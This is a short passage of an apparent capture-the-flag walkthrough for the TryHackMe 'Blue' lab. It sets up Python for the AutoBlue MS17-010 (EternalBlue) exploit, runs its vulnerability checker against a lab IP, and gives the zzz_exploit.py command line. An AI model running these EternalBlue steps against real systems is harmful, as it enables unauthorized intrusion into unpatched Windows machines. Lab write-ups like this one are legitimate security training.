 
#### Exploit via AutoBlue

Google  `working eternal blue exploit github`

> https://github.com/3ndG4me/AutoBlue-MS17-010


##### Setup python virtual environment

> **Python capabilities**
> Some exploits won't work for latest python versoin, follow this guide to install old python3 versions
> https://ngangasn.com/how-to-install-python-on-kali-linux/
> 
> - After installation, remember to upgrade pip
> ```bash
> sudo python3.8 -m pip install --upgrade pip
> ```
{: .prompt-tip }

```bash
┌──(kali㉿kali)-[~/thm/blue/eternalblue]
└─$ python3.8 -m venv venv

┌──(kali㉿kali)-[~/thm/blue/eternalblue]
└─$ source ./venv/bin/activate

┌──(venv)─(kali㉿kali)-[~/thm/blue/eternalblue]
└─$ python -V
Python 3.8.0

┌──(venv)─(kali㉿kali)-[~/thm/blue/AutoBlue-MS17-010]
└─$ pip install --upgrade pip

┌──(venv)─(kali㉿kali)-[~/thm/blue/AutoBlue-MS17-010]
└─$ pip install -r requirements.txt
```


##### Run Exploit Checker 

No named pipes to use

```bash
┌──(blue-OE27Ga6J)─(kali㉿kali)-[~/thm/blue/AutoBlue-MS17-010]
└─$ python3 eternal_checker.py 10.10.167.139
[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done
```

> **If namepipes is available**
> This version of the exploit is great for targeting systems that have named pipes available to avoid crashing the target.
> 
> ```bash
> python zzz_exploit.py $TARGET_IP
> ```
{: .prompt-tip }
